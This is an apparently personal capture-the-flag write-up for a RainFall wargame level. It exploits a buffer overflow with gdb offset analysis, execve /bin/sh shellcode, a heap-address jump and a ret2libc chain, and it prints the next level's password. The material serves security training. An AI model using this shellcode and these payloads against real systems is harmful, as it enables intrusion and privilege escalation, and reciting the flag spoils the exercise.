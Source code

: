 


first step checking if the binary vulnerable or not
```
python -c 'print "A" * 100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
find where exactly does it crash

```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175
```
```
unhex 61616175 | rev ; echo ""
uaaa
```
```
cyclic -l uaaa
80
```
manually calculating the distance between the buffer start address and the EIP
```
brek at  0x080484f2 <+30>:    mov    0x4(%ebp),%eax

 run <<< "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
 
info frame

eip at 0xbffff71c

(gdb) x/40wx $esp

0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73

0xbffff6c0:     0x080482b5      0x00000000      0x00ca0000      0x41414141

(gdb) p/x 0xbffff6c0 + 12

$1 = 0xbffff6cc

(gdb) x 0xbffff6cc

0xbffff6cc:     0x41414141

(gdb) p/d 0xbffff71c - 0xbffff6cc. (also p/d $ebp+4 - (0xbffff6a0+12) )

$3 = 80
```
```
shellcraft i386.linux.sh

6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80

python3 -c 'import struct; print(struct.pack(">L", 0x44840408))'
```

other method:
```
r <<< "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"

 SIGSEGV  0x55555555
 
 (gdb) p/c 0x55555555 = U

echo  "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT" | wc

81 - 1 = 80
```

===
```
define hook-stop
echo "---------------------------- esp -------------"
x/40wx $esp
echo "---------------------------- eip instructions -------------"
x/2i $eip
end
```

there is no system() therefore no shell to jump to

===

```
python3 -c 'print (len("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"))'

21

80 - 21 = 59
```

```
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2

pwd
/home/user/level2

whoami
level3

cat /home/user/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

how to get the heap addr : \x08\x04\xa0\x08

https://tc.gts3.org/cs6265/2019/tut/tut09-01-heap.html

 ltrace ./level2
 
 "pass a str" = = 0x0804a008 
 
 other method:
 
 smash the buffer to sigv by passin "a"s
 
 (gdb) info proc mappings
 
 heap addrs strat from  0x804a000 to 0x806b000
 
 examin 8 addr
``` 
 (gdb) x/8wx 0x804a000
 
0x804a000:      0x00000000      0x00000069      0x61616161      0x61616161

0x804a010:      0x61616161      0x61616161      0x61616161      0x61616161
```
first apperance of 'a' = 

`(gdb) p/x 0x804a000 + 8 = 0x804a008`
 
 =====
 
 ret2libc
 
 ```
 ret of p() func  0x0804853e to bypass check
 
 (gdb) p system ==> 0xb7e6b060
 
 (gdb) find system, +9999999, "/bin/sh" ==> 0xb7f8cc58
 
 system() needs a return value
 
 level2@RainFall:~$ python -c 'print "A" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "AAAA" + "\xb7\xf8\xcc\x58"[::-1] ' > /tmp/payload
 
 (cat /tmp/payload ; cat) | ./level2
 
 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
 ```

